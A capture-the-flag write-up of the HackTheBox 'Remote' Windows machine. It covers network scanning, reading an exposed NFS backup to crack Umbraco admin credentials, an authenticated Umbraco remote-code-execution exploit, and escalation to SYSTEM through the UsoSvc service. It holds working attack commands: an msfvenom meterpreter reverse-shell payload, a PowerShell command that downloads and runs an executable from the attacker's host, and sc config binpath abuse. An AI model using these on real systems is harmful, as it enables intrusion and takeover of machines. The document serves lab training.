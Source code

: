 ```yaml
---
layout: post
title: "Remote "
lang: en
categories:
  - writeups
tags:
  - security
  - writeups
  - windows
  - recon
  - network
  - eop
  - exploit
  - htb
  - dotnet
  - service
date: 2020/09/07
thumbnail: /img/HackTheBox/remote.png

toc: true
---
```

# Information



- **Name:** Remote
- **Profile:** [www.hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/234)
- **Difficulty:** Easy
- **OS:** Windows
- **Points:** 20

![Remote](/img/HackTheBox/remote.png)



## Overview

**TL;DR**: exploiting Umbraco CMS RCE & EoP through a Windows service.

Install tools used in this WU on BlackArch Linux:

```
pacman -S nmap nfs-utils exploitdb metasploit
```

## Network enumeration

[Nmap][nmap] port discovery & service:

```
# Nmap 7.80 scan initiated Thu Mar 26 23:51:54 2020 as: nmap -A -o nmap_full 10.10.10.180
Nmap scan report for 10.10.10.180
Host is up (0.031s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
5985/tcp open  wsman
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=3/26%OT=21%CT=1%CU=31453%PV=Y%DS=2%DC=T%G=Y%TM=5E7D326
OS:0%P=x86_64-unknown-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=
OS:S%TS=U)SEQ(SP=100%GCD=1%ISR=106%CI=I%II=I%TS=U)OPS(O1=M54DNW8NNS%O2=M54D
OS:NW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NNS%O6=M54DNNS)WIN(W1=FFFF%W2=
OS:FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M54DNW8N
OS:NS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R
OS:=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=
OS:AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=
OS:80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m31s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-26T22:55:29
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.61 ms 10.10.14.1
2   30.75 ms 10.10.10.180

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 26 23:53:20 2020 -- 1 IP address (1 host up) scanned in 86.43 seconds
```

## Discovery

We can find some interesting pages on the web server:

- http://10.10.10.180/people/
- http://10.10.10.180/about-us/todo-list-for-the-starter-kit/
- http://10.10.10.180/umbraco/#/login/false?returnPath=%252Fforms

The last one suggests an Umbraco CMS is used.

Also the mountd service allow us to list mounts and as there is a public
nfs share we can mount it:

```
$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)

$ sudo mount 10.10.10.180:/site_backups $(pwd)/dossier
```

Then we can find a file leaking the Umbraco admin credentials:

```
$ strings App_Data/Umbraco.sdf | grep admin@htb
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
```

With [CrackStation][CrackStation] is cracked the hash, so the credentials are:

`admin@htb.local` / `baconandcheese`

We can log in with them and then generate a reverse shell with [metasploit][msf]:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.222 LPORT=9999 -f aspx > shell.aspx
```

But afterward I saw `.aspx` extension is disallowed:

```
$ cat dossier/Config/umbracoSettings.config| grep disallowedUploadFiles
    <disallowedUploadFiles>ashx,aspx,ascx,config,cshtml,vbhtml,asmx,air,axd,swf,xml,xhtml,html,htm,svg,php,htaccess</disallowedUploadFiles>
```

So uploading a webshell through the webUI won't be possible.

## HTTP exploitation

We can look for an Umbraco exploit to get a RCE:

```
$ searchsploit umbraco
-------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                              |  Path
                                                                                            | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------- ----------------------------------------
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                  | exploits/aspx/webapps/46153.py
Umbraco CMS - Remote Command Execution (Metasploit)                                         | exploits/windows/webapps/19671.rb
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                  | exploits/php/webapps/44988.txt
-------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

The existing Umbraco RCE exploit sucked because of the arguments being
hardcoded and it wasn't displaying the output of the command you run.

So I re-wrote a better exploit: https://github.com/noraj/Umbraco-RCE

This time we can generate an exe reverse shell (rather than aspx webshell),
use my Umbraco RCE exploit to get a powershell shell, upload the reverse shell,
and gain shell access:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.222 LPORT=9999 -f exe > reverse.exe
$ python -m http.server --bind 10.10.15.222 8080
$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command ls'


    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/19/2020   3:11 PM                Config
d-----        2/19/2020   3:11 PM                en
d-----        2/19/2020   3:11 PM                en-US
...

$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command wget http://10.10.15.222:8080/reverse.exe -OutFile C:/Users/Public/noraj.exe'
$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command C:/Users/Public/noraj.exe'

PS C:\windows\system32\inetsrv> gc C:/Users/Public/user.txt
8eb35aa443795d5f4f306c100344e0d7
```

## Privilege Escalation of Machine 

Some enumeration tools show exploitable services like `UsoSvc` so I found an
article explaining the attack:
[CVE-2019-1405 and CVE-2019-1322 - Elevation to SYSTEM via the UPnP Device Host Service and the Update Orchestrator Service](https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/).

```
sc config UsoSvc binpath= "cmd.exe /c copy C:\\Users\\Administrator\\Desktop\\root.txt C:\\windows\\system32\\noraj.txt &"
sc config UsoSvc binpath= "cmd.exe /c copy del C:\\windows\\system32\\noraj.txt &"
C:\windows\system32\inetsrv>type C:\windows\system32\noraj.txt
9421fa1e9e59dd1a93d10a7efd87b5c2

sc config UsoSvc binpath= "cmd.exe /c del C:\\windows\\system32\\noraj.txt &"
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[CrackStation]:https://inventory.raw.pm/tools.html#CrackStation
[msf]:https://inventory.raw.pm/tools.html#Metasploit
